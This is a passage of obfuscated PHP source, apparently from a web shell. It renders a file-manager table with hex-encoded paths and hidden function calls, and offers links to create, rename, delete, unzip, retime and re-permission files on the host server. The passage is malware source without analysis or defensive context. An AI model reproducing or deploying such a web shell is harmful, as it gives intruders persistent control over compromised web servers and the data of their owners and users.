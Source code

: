 								<th width="11%">[ SIZE ]</th>
								<th width="17%">[ PERM ]</th>
								<th width="17%">[ DATE ]</th>
								<th width="11%">[ ACT ]</th>
							</tr>
						</thead>
						<tbody>
							<tr>
								<td>
									<a class="ajx" href="?d='.hex($d).'&n">+FILE</a>
									<a class="ajx" href="?d='.hex($d).'&l">+DIR</a>
								</td>
							</tr>
						';

							$h = "";
							$j = "";
							$w = $GNJ[13]($d);
							if($GNJ[28]($w) || $GNJ[29]($w)) {
							foreach($w as $c){
								$e = $GNJ[14]("\\", "/", $d);
								if(!$GNJ[30]($c, ".zip")) {
									$zi = '';
								}
								else {
									$zi = '<a href="?d='.hex($e).'&z='.hex($c).'">U</a>';
								}
								if($GNJ[31]("$d/$c")) {
										$o = "";
								}
								elseif(!$GNJ[32]("$d/$c")) {
										$o = " h";
								}
								else {
										$o = " w";
								}
								$s = $GNJ[34]("$d/$c") / 1024;
								$s = round($s, 3);
								if($s>=1024) { 
									$s = round($s/1024, 2) . " MB";
								} else {
									$s = $s . " KB";
								}
							if(($c != ".") && ($c != "..")){
								($GNJ[8]("$d/$c")) ?
								$h .= '<tr class="r">
							<td>
								<i class="far fa-folder m"></i>
								<a class="ajx" href="?d='.hex($e).hex("/".$c).'">'.$c.'</a>
							</td>
							<td class="x">
								dir
							</td>
							<td class="x">
								<a class="ajx'.$o.'" href="?d='.hex($e).'&k='.hex($c).'">'.x("$d/$c").'</a>
							</td>
							<td class="x">
								<a class="ajx" href="?d='.hex($e).'&t='.hex($c).'">'.$GNJ[20]("Y-m-d H:i", $GNJ[21]("$d/$c")).'</a>
							</td>
							<td class="x">
								<a class="ajx" href="?d='.hex($e).'&r='.hex($c).'">R</a>
								<a href="?d='.hex($e).'&x='.hex($c).'">D</a>
							</td>
						</tr>